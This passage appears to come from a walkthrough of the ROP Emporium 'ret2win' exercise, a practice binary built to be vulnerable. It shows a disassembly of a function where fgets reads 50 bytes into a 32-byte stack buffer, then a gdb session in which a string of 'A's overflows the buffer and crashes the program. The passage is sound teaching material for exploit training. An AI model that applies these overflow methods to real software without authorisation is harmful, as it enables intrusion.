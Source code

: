 ```text
|           0x004007e2      e8e9fdffff     call sym.imp.puts           ; int puts(const char *s)
|           0x004007e7      bfdd094000     mov edi, 0x4009dd
|           0x004007ec      b800000000     mov eax, 0
|           0x004007f1      e8fafdffff     call sym.imp.printf         ; int printf(const char *format)
|           0x004007f6      488b15730820.  mov rdx, qword [obj.stdin__GLIBC_2.2.5] ; [0x601070:8]=0
|           0x004007fd      488d45e0       lea rax, qword [local_20h]
|           0x00400801      be32000000     mov esi, 0x32               ; '2' ; 50
|           0x00400806      4889c7         mov rdi, rax
|           0x00400809      e812feffff     call sym.imp.fgets          ; char *fgets(char *s, int size, FILE *stream)
|           0x0040080e      90             nop
|           0x0040080f      c9             leave
\           0x00400810      c3             ret
```

Now that's where a lof of things are happening. Firstly we can see that there is a buffer of **0x20** (32) bytes in size, that at the start of the function is getting zeroed out with memset at address `0x004007ce`. Then there is information printed out by the program. Lastly, we have `fgets` function that will get **50** bytes from standard input into the buffer. 

But **50** bytes is much larger than our **32** byte buffer. Here's when normal buffer overflow scenario comes in, together with `gdb` that will help us debug the binary while running. 

Let's start this program with **50** byte input and see what will happen. 

```text
gdb-peda$ r
Starting program: /home/w3ndige/hacking/rop_emporium/ret2win/ret2win 
ret2win by ROP Emporium
64bits

For my first trick, I will attempt to fit 50 bytes of user input into 32 bytes of stack buffer;
What could possibly go wrong?
You there madam, may I have your input please? And don't worry about null bytes, we're using fgets!

> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Program received signal SIGSEGV, Segmentation fault.

[----------------------------------registers-----------------------------------]
RAX: 0x7fffffffdd30 ('A' <repeats 49 times>)
RBX: 0x0 
RCX: 0xfbad2288 
RDX: 0x7fffffffdd30 ('A' <repeats 49 times>)
RSI: 0x7ffff7f93730 --> 0x0 
RDI: 0x7fffffffdd31 ('A' <repeats 48 times>)
RBP: 0x4141414141414141 ('AAAAAAAA')
RSP: 0x7fffffffdd58 ("AAAAAAAAA")
RIP: 0x400810 (<pwnme+91>:	ret)
R8 : 0x0 
R9 : 0x7ffff7f93720 --> 0x0 
R10: 0x7ffff7f98500 (0x00007ffff7f98500)
R11: 0x246 
R12: 0x400650 (<_start>:	xor    ebp,ebp)
R13: 0x7fffffffde40 --> 0x1 
R14: 0x0 
R15: 0x0
EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x400809 <pwnme+84>:	call   0x400620 <fgets@plt>
   0x40080e <pwnme+89>:	nop
   0x40080f <pwnme+90>:	leave  
=> 0x400810 <pwnme+91>:	ret    
   0x400811 <ret2win>:	push   rbp
```